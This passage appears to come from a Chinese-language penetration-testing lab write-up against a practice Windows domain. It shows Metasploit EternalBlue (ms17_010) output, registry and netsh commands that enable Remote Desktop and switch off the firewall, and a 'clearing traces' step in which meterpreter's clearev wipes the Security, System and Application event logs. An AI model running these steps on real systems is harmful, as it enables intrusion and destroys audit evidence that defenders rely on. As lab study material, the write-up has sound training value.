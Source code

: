 ```

The command completed successfully.



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



启用远程桌面

> netstat -ano | findstr "3389"						# 查看端口3389是否开启
> REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber		# 查看远程端口
> REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f	# 开启3389端口
> netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow	# 允许 3389 端口放行
> netsh firewall set opmode disable					# Windows Server 2003 系统及之前版本
> netsh advfirewall set allprofiles state off			# Windows Server 2003 之后系统版本

剩下略，参考"远程登陆-启用远程桌面-MSF部分"



**域控渗透方法域上述基本一致，~~省略~~ **

需要注意的是，域控通过策略组禁用了远程桌面，方法会有点不一样。

当然，不建议进行以下操作，毕竟在实际环境中并碰不到域控。

> 计算机配置 —> 管理模板 —> Windows组件 —> 远程桌面服务 —> 远程桌面会话主机 —> 连接，允许用户通过使用远程桌面服务进行远程连接

![image-20220815174304021](./st1.assets/image-20220815174304021.png)





## 清除痕迹

**清除日志**

> meterperter自带清除日志功能： clearev     				# 可清除windows中的应用程序日志、系统日志、安全日志

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > sessions 

Active sessions
===============

  Id  Name  Type                     Information               Connection
  --  ----  ----                     -----------               ----------
  1         meterpreter x64/windows  GOD\Administrator @ STU1  192.168.220.137:9999 -> 192.168.220.138:7465  (192.168.220.138)

msf6 auxiliary(admin/smb/ms17_010_command) > sessions 1
[*] Starting interaction with 1...

meterpreter > clearev
[*] Wiping 1756 records from Application...
[*] Wiping 5230 records from System...
[*] Wiping 1842 records from Security...
meterpreter > shell
Process 2000 created.
Channel 11 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```